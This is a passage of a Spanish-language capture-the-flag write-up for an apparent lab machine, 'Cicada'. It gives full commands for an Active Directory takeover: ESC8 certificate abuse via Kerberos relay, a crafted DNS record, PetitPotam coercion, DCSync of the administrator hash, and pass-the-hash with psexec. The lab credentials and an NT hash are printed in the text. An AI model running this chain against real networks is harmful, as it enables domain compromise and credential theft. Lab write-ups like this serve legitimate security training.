
Ahora con las credenciales ya podemos intentar enumerar los shares de smb

Al ver la carpeta CertEnroll vamos a intentar enumerar ADCS en busca de certificados vulnerables.
```bash
certipy-ad find -u 'Rosie.Powell@cicada.vl' -p 'Cicada123' -k -target DC-JPQ225.cicada.vl -vulnerable -stdout
```

Como vemos es vulnerable a ESC8 https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc8-ntlm-relay-to-ad-cs-web-enrollment entonces vamos a explotar la vulnerabilidad siguiendo la guía de certipy pero como el NTLM esta deshabilitado tenemos que hacer un Relay de Kerberos sobre SMB.
https://www.tiraniddo.dev/2024/04/relaying-kerberos-authentication-from.html
https://www.synacktiv.com/publications/relaying-kerberos-over-smb-using-krbrelayx.html
Para ello añadimos este registro dns el cual apunta a nuestra maquina:
```bash
bloodyAD -u Rosie.Powell -p Cicada123 -d cicada.vl -k --host DC-JPQ225.cicada.vl add dnsRecord DC-JPQ2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA 10.10.16.174
```
Ahora con certipy hacemos el relay es decir el equipo se conecta a nosotros nos envía el ticket de kerberos y lo retrasmitimos rápidamente al a la web de certificados este ve un ticket valido genera un certificado de cuenta de máquina del Controlador de Dominio (DC-JPQ225$ y nos lo devuelve a nosotros.
```bash
certipy relay -target 'http://dc-jpq225.cicada.vl/' -template DomainController
```

Con esto lo que hacemos es forzar la autenticación del equipo contra nosotros para poder capturar así el ticket y reenviarlo para la obtención del certifiicado:
```bash
nxc smb DC-JPQ225.cicada.vl -u Rosie.Powell -p Cicada123 -k -M coerce_plus -o LISTENER=DC-JPQ2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA METHOD=PetitPotam
```


Ahora usamos el certificado para autenticarnos contra el dc y conseguir así el hash nt de la cuenta del dominio dc-jpq225$:

```bash
certipy-ad auth -pfx dc-jpq225.pfx -dc-ip 10.129.234.48
```


Como esta tiene privilegios de dc sync vamos a utilizarla para extraer los usuarios y hashes del dc:
```bash
impacket-secretsdump -k -no-pass -just-dc-user administrator 'dc-jpq225$@dc-jpq225.cicada.vl'
```


Ahora nos conectamos con el hash nt del admin consiguiendo así privilegios totales en el dc:
```bash
impacket-psexec cicada.vl/administrator@DC-JPQ225.cicada.vl -k -hashes :85a0da53871a9d56b6cd05deda3a5e87
```


Encontramos las flags en el desktop del administrator
